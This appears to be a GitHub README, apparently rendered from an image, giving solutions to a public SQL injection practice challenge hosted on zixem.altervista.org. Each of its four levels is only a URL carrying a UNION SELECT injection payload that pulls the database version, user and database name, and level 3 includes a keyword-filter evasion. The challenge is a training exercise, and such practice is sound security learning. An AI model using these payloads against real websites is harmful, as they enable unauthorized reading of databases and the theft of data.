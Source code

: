 # ZixemSQLi Challange

[READ RULES](http://www.zixem.altervista.org/SQLi/index.php)

## LEVEL 1

```
http://www.zixem.altervista.org/SQLi/level1.php?id=1111%20union%20select%20concat_ws(0x3a,%20version(),%20user()),%2022,%203
```

## LEVEL 2

```
http://www.zixem.altervista.org/SQLi/level2.php?showprofile=-1' union select database(),version(),user(),4--+
```

## LEVEL 3

```
http://www.zixem.altervista.org/SQLi/level3.php?item=-4%27%20unionon%20SeLect%20database(),User(),version(),4--+
```

## LEVEL 4

```
http://www.zixem.altervista.org/SQLi/level4.php?ebookid=999%27%20union%20select%20version(),2,user(),4,5--+
```



